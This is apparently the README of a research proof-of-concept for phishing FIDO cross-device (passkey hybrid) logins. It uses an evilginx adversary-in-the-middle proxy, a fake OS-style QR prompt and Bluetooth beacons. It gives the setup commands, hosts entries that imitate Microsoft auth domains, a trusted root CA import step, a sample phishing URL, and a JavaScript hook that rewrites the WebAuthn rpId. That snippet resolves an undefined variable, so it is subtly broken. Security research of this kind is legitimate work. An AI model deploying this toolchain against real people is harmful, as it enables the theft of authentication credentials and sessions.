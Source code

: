 ## TL; DR;
This is a PoC for a phishing technique using FIDO cross‑device (hybrid) authentication. An attacker can run an AitM proxy that shows a fake, OS‑like QR code prompt in the browser. The attack requires placing one or more Bluetooth beacons within the victim’s Bluetooth range.

You can find more details in the [Blog Post](https://denniskniep.github.io/posts/14-fido-cross-device-phishing/)

## Demo
https://youtu.be/kbv4-6qaR6g

## Local Testing

### dns
Add following entries to `/etc/hosts`:
```
127.0.0.1       my-backend.com
127.0.0.1       my-original-site.com
127.0.0.1 	    my-phishing-site.com
127.0.0.1       login.my-phishing-site.com
127.0.0.1	    www.my-phishing-site.com
127.0.0.1       aadcdn.msftauth.my-phishing-site.com
127.0.0.1       aadcdn.msauth.my-phishing-site.com
```

### RootCA & TLS certs
Before you start you need to generate fresh certs!

Make sure that you have openssl installed

Execute `./cert-setup.sh`

Then import `evilginx/config/crt/ca.crt` as trusted root CA into your browser

### Start evilginx
Start dockerized evilginx
```
cd evilginx
docker build --tag evilginx . && docker run -p 443:443 -it evilginx
```

### Start server
Start server which is responsible to relay the webauthn requests via CTAP (through server "cable.ua5v.com", "cable.auth.com") to the authenticator

via cli
```
cd server
cargo run
```

or dockerized
```
cd server
docker build --tag fido-qr-server .
docker run -p 4444:4444 -e RUST_BACKTRACE=full fido-qr-server
```

### Start beacon
Start an application which is responsible to send all discovered BLE advertisements to the server
```
cd beacon
go run ./ start
```

### Open Phishing Url
* https://login.my-phishing-site.com/DZwkbKWF


### Prototype with JavaScript in DeveloperTools
```
var orig = navigator.credentials.get
navigator.credentials.get = function(req){
    return new Promise((resolveOuter) => {
    console.log(req);
    navigator.credentials.get = orig
    req.publicKey.rpId = "phish.com"
    navigator.credentials.get(req)
        .then(resp => {
            console.log(result)
            resolveOuter(result);
        })
        .catch(err => console.log(err));
    });
}
```
